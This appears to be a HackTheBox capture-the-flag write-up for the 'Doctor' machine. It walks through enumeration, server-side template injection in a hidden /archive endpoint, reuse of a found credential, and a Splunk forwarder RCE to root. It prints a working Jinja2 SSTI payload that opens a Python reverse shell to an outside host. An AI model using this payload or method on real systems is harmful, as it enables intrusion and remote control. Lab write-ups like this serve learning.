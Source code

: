 # Doctor

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (75).png" alt=""><figcaption></figcaption></figure>

### Doctors.htb

The website revealed a basic corporate page:

<figure><img src="../../../.gitbook/assets/image (25) (1).png" alt=""><figcaption></figcaption></figure>

There was nothing interesting, until I added `doctors.htb` to the `/etc/hosts` file (as per standard HTB practice) and visited that site.

<figure><img src="../../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

Here, we can create an account and test this service. When logged in, we can see a few functions.

<figure><img src="../../../.gitbook/assets/image (123).png" alt=""><figcaption></figcaption></figure>

When examining the page source, we can find an `/archive` endpoint.&#x20;

```markup
 <div class="navbar-nav mr-auto">
              <a class="nav-item nav-link" href="/home">Home</a>
              <!--archive still under beta testing<a class="nav-item nav-link" href="/archive">Archive</a>-->
            </div>
            <!-- Navbar Right Side -->
            <div class="navbar-nav">
```

When visiting it, it returns nothing but the **posts that we have made**.&#x20;

### SSTI in Posts

Initially, I tested other vulnerabilities like SSTI on the username and the message posting functions but it didn't return any positives.

<figure><img src="../../../.gitbook/assets/image (21) (1).png" alt=""><figcaption></figcaption></figure>

When I visited the `/archive` endpoint, we would actually see that it works!

<figure><img src="../../../.gitbook/assets/image (2) (6).png" alt=""><figcaption></figcaption></figure>

For SSTI, we can follow this table on HackTricks to determine which framework is being used.

<figure><img src="../../../.gitbook/assets/image (12) (7).png" alt=""><figcaption></figcaption></figure>

For this specific box, we can determine that it's Jinja2 or Twig. On PayloadAllTheThings, there's a payload that works in spawning a reverse shell.

{% code overflow="wrap" %}
```
{% raw %}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect((\"10.10.14.6\",443)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
{% endraw %}
```
{% endcode %}

When we submit this as a message, it would spawn a reverse shell.

<figure><img src="../../../.gitbook/assets/image (18) (5).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Shaun Credentials

I ran LinPEAS to enumerate all files for me, it found a credential for me.

<figure><img src="../../../.gitbook/assets/image (128).png" alt=""><figcaption></figcaption></figure>

When checking for other users, there was only the user `shaun`.

<figure><img src="../../../.gitbook/assets/image (23) (1).png" alt=""><figcaption></figcaption></figure>

We can try using `su` with this credential, and it works.

<figure><img src="../../../.gitbook/assets/image (124) (2).png" alt=""><figcaption></figcaption></figure>

### Splunk RCE

I checked the `/opt` directory, and found that there were some `splunkforwarder` related files within it.

<figure><img src="../../../.gitbook/assets/image (126).png" alt=""><figcaption></figcaption></figure>

Normally, Splunk runs on port 8089, and we did find that port open on the machine earlier. Furthermore, this version of Splunk is vulnerable to an RCE exploit called SplunkWhisperer.

{% embed url="https://github.com/cnotin/SplunkWhisperer2" %}

We can easily run the exploit to give us a reverse shell as root.&#x20;

<figure><img src="../../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

